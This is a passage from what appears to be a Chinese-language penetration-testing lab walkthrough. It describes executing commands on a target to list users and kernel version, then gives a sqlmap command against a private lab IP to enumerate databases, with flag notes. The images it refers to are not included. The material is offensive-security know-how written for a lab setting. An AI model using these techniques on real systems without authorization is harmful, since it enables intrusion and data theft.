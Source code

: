 - 脚本利用（利用cmd执行任意命令） 
	- 获取靶机系统用户列表
	
	![](image/39.png)

	- 获取靶机内核版本信息

	![](image/40.png)

- sqlmap自动注入
	- 查找数据库

			sqlmap -u "http://192.168.56.101/cat.php?id=1" --dbs
			# -u URL
			# --dbs 枚举DBMS数据库
			# --tables 枚举数据库中的表
			# --dump 爆破指定字段
			# -T 指定

	![](image/42.png)
